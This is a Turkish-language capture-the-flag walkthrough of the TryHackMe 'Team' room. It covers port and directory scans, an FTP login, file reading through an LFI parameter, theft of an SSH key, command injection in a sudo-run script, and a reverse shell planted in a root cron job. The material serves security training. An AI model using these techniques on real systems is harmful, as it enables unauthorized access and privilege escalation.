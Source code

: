 ```yaml
---
title: Team
date: 2024-03-27 13:02:12
categories: [TryHackMe]
tags: [Easy]
image: images/team.png
---
```


[Team](https://tryhackme.com/r/room/teamcw)

---

nmap komutu:

````bash
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV 10.10.44.46
````

nmap çıktısı:

````bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-30 11:48 EDT
Nmap scan report for 10.10.44.46 (10.10.44.46)
Host is up (0.13s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
````

80 portunda web servisi çalışıyor. Siteyi ziyaret edelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/1.png?raw=true)

Default apache2 sayfasını görüntülüyoruz. Sayfanın kaynak kodunu inceledim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/2.png?raw=true)

/etc/hosts dosyasına team.thm sitesini kaydetmemiz isteniyor.

hosts dosyasını düzenlediğimizde siteye erişebiliyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/3.png?raw=true)

Gobuster ile dizin taraması yapıyorum.

````bash
┌──(root㉿kali)-[~]
└─# gobuster dir --wordlist=/usr/share/wordlists/dirb/big.txt --url http://team.thm -t 40
````

gobuster çıktısı:

````bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://team.thm
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/]
/images               (Status: 301) [Size: 305] [--> http://team.thm/images/]
/robots.txt           (Status: 200) [Size: 5]
/scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/server-status        (Status: 403) [Size: 273]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
````

robots.txt içinde dale yazıyor henüz ne olduğundan emin değilim kullanıcı adı olabilir.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/4.png?raw=true)

/scripts dizininde script.txt dosyası buldum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/5.png?raw=true)

Not kısmındaki ipucuyla dosyanın uzantısını .old yaptım ve dosyayı indirdim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/6.png?raw=true)

İçerisinde ftp username ve password var.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/7.png?raw=true)

Bulduğum bilgilerle ftp servisine girdim.

````bash
┌──(root㉿kali)-[~]
└─# ftp ftpuser@10.10.44.46
Connected to 10.10.44.46.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||40882|)
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive 
Passive mode: off; fallback to active mode: off.
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    5 65534    65534        4096 Jan 15  2021 .
drwxr-xr-x    5 65534    65534        4096 Jan 15  2021 ..
-rw-r--r--    1 1002     1002          220 Apr 04  2018 .bash_logout
-rw-r--r--    1 1002     1002         3771 Apr 04  2018 .bashrc
drwxrwxr-x    3 1002     1002         4096 Jan 15  2021 .local
-rw-r--r--    1 1002     1002          807 Apr 04  2018 .profile
drwx------    2 1002     1002         4096 Jan 15  2021 .ssh
drwxrwxr-x    2 65534    65534        4096 Jan 15  2021 workshare
226 Directory send OK.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxrwxr-x    2 65534    65534        4096 Jan 15  2021 workshare
226 Directory send OK.
ftp> cd workshare
250 Directory successfully changed.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rwxr-xr-x    1 1002     1002          269 Jan 15  2021 New_site.txt
226 Directory send OK.
ftp> get New_site.txt
local: New_site.txt remote: New_site.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for New_site.txt (269 bytes).
100% |*****************************************************************|   269      144.57 KiB/s    00:00 ETA
226 Transfer complete.
269 bytes received in 00:00 (3.31 KiB/s)
````

New_site.txt dosyasını indirdim ve inceledim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/8.png?raw=true)


Geliştirilme aşamasında olan dev subdomaini bulduk. /etc/hosts dosyasına kaydedelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/9.png?raw=true)

Linke tıkladığımızda script.php sayfasına atıyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/10.png?raw=true)

page parametresini değiştirerek makinedeki dosyaları görüntüleyebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/11.png?raw=true)


dale kullanıcısının olduğunu biliyorum. home/dale/user.txt dosyasını görüntüleyerek ilk flag'i alıyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/12.png?raw=true)

New_page.txt dosyasındaki diğer ipucu ssh key ile alakalıydı. Makinede gezdim ve dale kullanıcısının RSA key'ini buldum


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/13.png?raw=true)

Bir dosyaya kaydederek ssh ile makineye bağlanabilirim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/14.png?raw=true)

sudo -l komutunu kullandım. admin_checks dosyasıyla gyles kullanıcısına geçebildiğimi gördüm.

````bash
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
dale@TEAM:~$ cat /home/gyles/admin_checks
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"




dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: otuzbir
Enter 'date' to timestamp the file: /bin/bash
The Date is /bin/bash
id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
python3 -c 'import pty; pty.spawn("/bin/bash")'
gyles@TEAM:~$ 
````

/opt/admin_stuff klasöründe root yetkisi olan ve her dakika çalışan bir cronjob dosyası buldum.

````bash
gyles@TEAM:/opt$ ls
admin_stuff
gyles@TEAM:/opt$ cd admin_stuff/
gyles@TEAM:/opt/admin_stuff$ ls
script.sh
gyles@TEAM:/opt/admin_stuff$ cat script.sh 
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
gyles@TEAM:/opt/admin_stuff$ 
````

````bash
gyles@TEAM:/opt/admin_stuff$ cd /usr/local/bin/
gyles@TEAM:/usr/local/bin$ ls
main_backup.sh
gyles@TEAM:/usr/local/bin$ cat main_backup.sh 
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
````

main_backup.sh dosyasına reverse shell ekleyerek yetkimizi yükseltebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/15.png?raw=true)

1 dakika sonra shell geliyor, rootladık :)

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Team/images/16.png?raw=true)

![fsoc](/images/fsoc.gif)



